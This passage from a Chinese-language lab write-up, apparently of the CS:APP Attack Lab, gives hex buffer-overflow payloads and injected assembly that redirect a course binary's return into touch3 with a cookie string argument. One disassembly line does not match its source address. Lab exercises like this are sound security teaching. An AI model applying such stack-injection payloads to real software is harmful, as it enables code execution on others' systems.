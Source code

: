 构造字符串（16进制）为

```
bf fa 97 b9 59 68 ec 17
40 00 c3 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
78 dc 61 55 00 00 00 00 # 0x5561dc78即为我们编写程序的起始位置
```



### Phase3 

与phase2类似，phase3在转入touch3函数执行时会进行参数的比较，只不过参数从整型变成了字符串类型，需要将edi寄存器的值改为参数字符串的起始地址

```asm
# 编写汇编程序为
push $0x61663739
push $0x39623935 # 将cookie的ascii码压入栈中
mov %esp,%edi
push $0x004018fa # 将touch3的返回地址压入栈中，随后返回
ret

# 反汇编为
0:   68 39 37 66 61          pushq  $0x61663739
5:   68 35 39 62 39          pushq  $0x39623935
a:   89 e7                   mov    %esp,%edi
c:   68 fa 18 40 00          pushq  $0x4017ec
11:   c3                      retq             
```

构造16进制字符串如下：

```
68 39 37 66 61 68 35 39
62 39 89 e7 68 fa 18 40 
00 c3 31 31 31 31 31 31
31 31 31 31 31 31 31 31
31 31 31 31 31 31 31 31
78 dc 61 55 00 00 00 00
```

<img src="https://cdn.jsdelivr.net/gh/Real-Rio/pictures/img/image-20230625173959059.png" alt="image-20230625173959059" style="zoom:50%;" />

第一次提交显示失败，猜测是存放cookie的栈空间被污染，尝试将cookie保存在`0x5561dca8`处

![image-20230625121228141](https://cdn.jsdelivr.net/gh/Real-Rio/pictures/img/image-20230625121228141.png)

修改后的代码如下

```asm
mov $0x5561dca8,%rdi
push $0x004018fa # 将touch3的返回地址压入栈中，随后返回
ret

#反汇编
   0:   48 c7 c7 a8 dc 61 55    mov    $0x5561dca8,%rdi
   7:   68 fa 18 40 00          pushq  $0x4018fa
   c:   c3                      retq                     retq   
```
